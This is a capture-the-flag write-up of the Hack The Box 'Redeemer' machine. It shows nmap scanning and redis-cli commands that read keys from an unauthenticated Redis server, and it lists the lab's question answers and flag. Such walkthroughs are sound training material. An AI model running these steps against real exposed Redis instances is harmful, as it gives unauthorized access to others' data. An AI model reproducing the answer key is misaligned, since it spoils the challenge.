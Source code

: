 # Redeemer Walkthrough HTB

---

💻️ The Target Machine is : 10.129.61.157

---

A tip I would suggest, if you don't want to constantly retype the IP address you can opt to export the address to a variable whose name can be of your chosing. 
In turn you can call the variable as `$[variableName]` the **$** is important.
Conside the command below:
```
-$ export IP=10.129.61.157 
```
The command is entered directly into the terminal that would be currently running and will be only active in that terminal.
To test the command:
```
-$ echo $IP
10.129.61.157
```

### Answering HTB Questions 

> Which TCP port is open on the machine? 
>> 6379

>  Which service is running on the port that is open on the machine? 
>> redis

>  What type of database is Redis? Choose from the following options: (i) In-memory Database, (ii) Traditional Database 
>> In-memory database

[**In-memory database**]() is a database that keeps data in the main memory aka RAM, therefore each time you query the DB or even update the DB then you basically access the main memory. There is no secondary memory usage in the operations. Hence, if the machine crashes the data is lost.

>  Which command-line utility is used to interact with the Redis server? Enter the program name you would enter into the terminal without any arguments. 
>> Redis-cli

>  Which flag is used with the Redis command-line utility to specify the hostname? 
>> -h

>  Once connected to a Redis server, which command is used to obtain the information and statistics about the Redis server? 
>> INFO

>  What is the version of the Redis server being used on the target machine? 
>> 5.0.7

>  Which command is used to select the desired database in Redis? 
>> select

I wrote `select` because it is usually the go to command to access databases and tables more so when using SQL.
Up to this point I basically used help command to figure things out and move around, but I haven't been able to view the databases that are available let alone the tables.
The onlything to do now is research on redis and the system 😅️.

After an enourmous time of googling here is what I found.

> Redis provides you with 16 databases starting from index 0 to index 15. You can switch to a database using the select command as:
```
127.0.0.1:6379> select 1
OK
127.0.0.1:6379[1]>
```
Use [this](https://linuxhint.com/redis-cli/) for reference.

Also, Redis is a NO-SQL type of database system. So that would mean that it is a non-relational DB 🤔️.

A tip that I found was to use this [site](https://book.hacktricks.xyz/welcome/readme) it is called hacktricks, a wonderful resource for knowledge in terms of ctfs.

In-depth reference would be [cryptocat](https://www.youtube.com/watch?v=usZ78an3jXE&t=6s) video.

 
>  How many keys are present inside the database with index 0? 
>> 4



>  Which command is used to obtain all the keys in a database? 
>> keys *


## -------------------------| ENUMARATION PHASE |------------------------------

```
-$ sudo nmap -p- --min-rate 5000 -sV -sC $IP -v -oN scan.nmap 

---snip---

PORT     STATE SERVICE VERSION
6379/tcp open  redis   Redis key-value store 5.0.7

---snip---

```
**`-p-`** ==> scan all the 65535 ports.
**`-sV`** ==> Enumerate the version of the service that is open.
**`-sC`** ==> Use default scrips to enumerate certain things like the version, OS
**`-v`** ==> Show me everything that the tool is doing. Being verbose.
**`-oN`** ==> On a normal file output everything there hence the filename [scan.nmap]()

## ----------------------------| EXPLOITAION |---------------------------------

With what we have discovered we can try and gain foothold on the machine.

Okay let's put it all together, as shown below:
```
$ redis-cli -h $IP

10.129.61.157:6379> INFO

# Server
redis_version:5.0.7
redis_git_sha1:00000000
redis_git_dirty:0
redis_build_id:66bd629f924ac924
redis_mode:standalone
os:Linux 5.4.0-77-generic x86_64
arch_bits:64

---snip---
```
The info command gives us details about the system.

```
10.129.61.157:6379> dbsize
(integer) 4
```
This just stated the size of the DB.
```
10.129.61.157:6379> info keyspace
# Keyspace
db0:keys=4,expires=0,avg_ttl=0
```
To dump the whole database we use the command above, db0 basically denotes the index 0 which is a database. Notice that the number of keys are 4 and each key ought to have a value 🤔️.
```
10.129.61.157:6379> select 0
OK
10.129.61.157:6379> keys *
1) "numb"
2) "flag"
3) "temp"
4) "stor"
10.129.61.157:6379> get "flag"
"03e1d2b376c37ab3f5319922053953eb"
```
So I needed to select the database, which I did, there after list all the keys.
The * denotes list everything or include everything.
What is listed are basically keys and their data type is string.
To get the values you basically use the get command together with the key.

> Submit root flag
>> 03e1d2b376c37ab3f5319922053953eb
